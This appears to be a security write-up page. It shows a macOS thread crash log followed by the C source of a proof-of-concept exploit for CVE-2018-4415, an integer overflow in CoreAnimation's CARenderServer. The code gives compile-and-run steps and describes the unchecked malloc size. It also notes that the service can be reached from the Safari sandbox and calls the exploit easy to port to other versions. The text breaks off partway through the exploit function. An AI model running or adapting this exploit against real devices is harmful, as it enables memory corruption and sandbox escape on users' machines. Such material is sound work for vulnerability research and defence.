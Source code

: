 ```shell
Thread 13 Crashed:
0 libdispatch.dylib 0x000000018fd18514 0x18fcca000 + 320788
1 libdispatch.dylib 0x000000018fd1606c 0x18fcca000 + 311404
2 libdispatch.dylib 0x000000018fd1606c 0x18fcca000 + 311404
3 libdispatch.dylib 0x000000018fd0f1ac 0x18fcca000 + 283052
4 libsystem_pthread.dylib 0x000000018ff0d078 0x18ff01000 + 49272
5 libsystem_pthread.dylib 0x000000018ff0fd18 0x18ff01000 + 60696
```

**Exploit**<br>
```c
/**
 *  Brief: Integer overflow in CoreAnimation, CVE-2018-4415
 *  Usage:
 *    1. clang FunctionIntOverFlow.c -o function_over_flow
 *    2. ./function_over_flow
 *
 *  Specifically, `CA::Render::InterpolatedFunction::allocate_storage` function in QuartzCore does
 *  not do any check for integer overflow in expression |result = (char *)malloc(4 * (v4 + v3));|.
 *
 *  The bug has been fixed in macOS 10.14.1 and iOS 12.1, since the interfaces and structure of
 *  messages are inconsistent between different versions, this PoC may only work on macOS 10.14 and
 *  iOS 12.0, but it's very easy to replant it to another versions.
 *
 *  Tips for debugging on macOS: Turn Mac to sleep mode and ssh to the target machine, this may
 *  help you concentrate on your work.
 *
 *  One more: Mach service com.apple.CARenderServer is reacheable from Safari sandbox on both macOS
 *  and iOS. com.apple.windowserver.active accurately on macOS versions prior to macOS 10.14.
 */
#include <dlfcn.h>
#include <mach/mach.h>
#include <stdio.h>
#include <unistd.h>
static void do_int_overflow() {
    mach_port_t p = MACH_PORT_NULL, bs_port = MACH_PORT_NULL;
    task_get_bootstrap_port(mach_task_self(), &bs_port);
    const char *render_service_name = "com.apple.CARenderServer";
    kern_return_t (*bootstrap_look_up)(mach_port_t, const char *, mach_port_t *) =
        dlsym(RTLD_DEFAULT, "bootstrap_look_up");
    kern_return_t kr = bootstrap_look_up(bs_port, render_service_name, &p);
    if (kr != KERN_SUCCESS) {
        printf("[-] Cannot get service of %s, %s!\n", render_service_name, mach_error_string(kr));
        return;
    }
    typedef struct quartz_register_client_s quartz_register_client_t;
    struct quartz_register_client_s {
        mach_msg_header_t header;
        uint32_t body;
        mach_msg_port_descriptor_t ports[4];
        char padding[12];
    };
    quartz_register_client_t msg_register;
    memset(&msg_register, 0, sizeof(msg_register));
    msg_register.header.msgh_bits =
        MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND, MACH_MSG_TYPE_MAKE_SEND_ONCE) |
        MACH_MSGH_BITS_COMPLEX;
    msg_register.header.msgh_remote_port = p;
    msg_register.header.msgh_local_port = mig_get_reply_port();
    msg_register.header.msgh_id = 40202;  // _XRegisterClient
    msg_register.body = 4;
    msg_register.ports[0].name = mach_task_self();
    msg_register.ports[0].disposition = MACH_MSG_TYPE_COPY_SEND;
    msg_register.ports[0].type = MACH_MSG_PORT_DESCRIPTOR;
```